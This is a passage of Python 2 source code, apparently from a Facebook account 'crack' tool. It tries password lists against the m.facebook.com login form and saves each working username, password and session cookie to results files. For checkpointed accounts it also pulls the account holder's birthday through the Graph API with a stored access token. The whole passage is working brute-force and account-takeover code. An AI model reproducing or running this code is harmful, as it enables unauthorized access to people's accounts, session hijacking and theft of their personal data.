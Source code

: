                 print '\r  %s* --> %s|%s                %s' % (K,user,pw,N)
                wrt = ' [×] %s|%s' % (user,pw)
                cp.append(wrt)
                open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue

        loop += 1


    def __mfb__(self, user, __yan__):
        global ok,cp,loop
        sys.stdout.write('\r [%s*%s] [crack] %s/%s -> OK-:%s - CP-:%s '%(O,N,loop,len(self.id),len(ok),len(cp))),
        sys.stdout.flush()
        for pw in __yan__:
            pw = pw.lower()
            try: os.mkdir('results')
            except: pass
            try:
            	_kontol = open('YNTKTS.txt', 'r').read()
            except (KeyError, IOError):
            	_kontol = requests.get('https://raw.githubusercontent.com/Yayan-XD/ymbf/main/data/user_agent.txt').text.strip()
            ses = requests.Session()
            ses.headers.update({"Host":"m.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":_kontol,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
            p = ses.get("https://m.facebook.com")
            b = ses.post("https://m.facebook.com/login.php", data={"email": user, "pass": pw, "login": "submit"})
            if "c_user" in ses.cookies.get_dict().keys():
            	kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print '\r  %s* --> %s|%s|%s                 %s' % (H,user,pw,kuki,N)
                wrt = ' [✓] %s|%s|%s' % (user,pw,kuki)
                ok.append(wrt)
                open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue
            elif "checkpoint" in ses.cookies.get_dict().keys():
                try:
                    kontol = open('.ppk/.memek.txt').read()
                    ak = requests.get('https://graph.facebook.com/%s?access_token=%s'%(user,kontol))
                    az = json.loads(ak.text)
                    graph = az["birthday"]
                    month, day, year = graph.split("/")
                    month = bulan[month]
                    print '\r  %s* --> %s|%s|%s %s %s     %s' % (K,user,pw,day,month,year,N)
                    wrt = ' [×] %s|%s|%s %s %s' % (user,pw,day,month,year)
                    cp.append(wrt)
                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                except (KeyError, IOError):
                    month = ''
                    day = ''
                    year = ''
                except:
                    pass
